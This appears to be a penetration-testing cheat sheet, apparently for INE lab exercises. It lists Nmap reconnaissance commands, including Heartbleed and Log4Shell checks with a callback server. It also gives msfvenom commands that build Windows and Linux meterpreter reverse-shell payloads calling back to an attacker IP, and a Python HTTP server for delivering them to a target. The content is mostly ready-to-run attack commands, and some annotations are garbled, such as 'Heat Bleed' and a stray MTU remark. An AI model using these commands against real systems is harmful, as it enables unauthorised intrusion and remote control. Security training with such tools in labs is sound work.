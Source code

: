 > The `--mtu` flag allows you to set a custom Maximum Transmission Unit (MTU) for the packets that Nmap sends during scanning.

```Shell
nmap demo.ine.local -p 177 -A
```

> We can perform an Nmap port scan on the target system to identify whether the BIND DNS server is open. 

```Shell
nmap 10.0.24.0/20 --open
```

> This command scans the subnet and shows only the open ports of the target.

```Shell
nmap -p 443 --script ssl-heartbleed <ip-address>
```

> This checks that whether the host machine is vulnerable to Heat Bleed Vulnerability or not.

```Shell
nmap --script log4shell.nse --script-args log4shell.callback-server=172.17.42.1:1389 -p 8080 <ip-address>
```

> Log4J Discovery script


```shell
nmap -sV --script=banner <target-IP>
```
> This is use for banner grabbing

#### Payload:

```shell
msfvenom --list payloads
```
> show the list of payloads

```shell
msfvenom --list formats
```
> this is use to show the formats of payload

- Window payload
  
```shell
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<my-ip> LPORT=1234 -f exe > payload.exe
```
> msfvenom payload. `x86` for 32 bit and `x64` is for 64 bit

- Linux payload

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<my-ip> LPORT=1234 -f elf > payload
chmod +x payload
```

```shell
sudo python -m SimpleHTTPServer 80
```
> first open the directory which you have a payload and serve that directory in http server to download payload in target system. open target system browser `http://<my-ip>:80`. 
